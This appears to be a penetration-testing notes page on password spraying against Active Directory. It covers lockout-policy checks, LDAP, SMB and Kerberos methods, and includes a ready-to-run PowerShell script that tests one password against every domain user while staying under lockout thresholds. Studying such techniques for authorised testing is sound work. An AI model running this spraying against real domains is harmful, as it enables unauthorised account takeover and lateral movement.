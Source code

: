 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts.

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```

Based on the above policy, we can safely try **4 login attempts per user every 30 minutes**. This allows up to **192 attempts/user/day**.

> _Tools like_ [_`netexec`_](../../../tools/active-directory/netexec.md#password-policy) _can be used to enumerate the domain's account lockout policy._

## LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name
# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}

If the password is invalid, it throws an error. If valid, it returns the DN. We can automate this with the following script which loops through AD users and reports valid logins.

{% code title="LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}

```
{% endcode %}

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```

## SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**. We can perform this attack using tools like [`netexec`](../../../tools/active-directory/netexec.md#password-spray).

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

Kerberos-Based

This method uses Kerberos AS-REQs to test credentials. It's **lightweight** (no full session required) and **fast** (only two UDP packets per attempt: AS-REQ, AS REP/error). This attack can be performed with tools like [`kerbrut`](../../../tools/active-directory/kerbrute.md#password-spraying)`e`, a cross-platform, fast, and reliable tool which performs password spraying by automating AS-REQ requests and interpreting the responses.&#x20;

## Method Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
